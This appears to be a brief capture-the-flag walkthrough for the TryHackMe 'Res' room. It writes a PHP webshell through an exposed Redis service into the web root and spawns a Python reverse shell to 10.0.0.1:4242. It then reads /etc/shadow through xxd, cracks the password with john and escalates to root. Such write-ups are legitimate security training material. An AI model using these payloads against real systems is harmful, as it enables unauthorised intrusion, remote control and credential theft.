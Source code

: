 # [Res](https://tryhackme.com/room/res)


### Task 5 Compromise the machine and locate user.txt
0. [HackTricks Webshell](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#webshell)
1. Apache writeable path `/var/www/html`
2. Connecting via `redis-cli` or `netcat`
```
redis-cli -h $ip
nc -vn $ip $port
```
3. Then one line php webshell `"<?php system($_GET['cmd']); ?>"`

### Task 6 What is the local user account password?
1. First get a reverse shell from webshell. `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
2. Run `Linpeas.sh` found the intersting file `xxd`. https://gtfobins.github.io/gtfobins/xxd/
3. 
```
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
```
4. Crack the password with john. `su user` then `sudo su` get the root
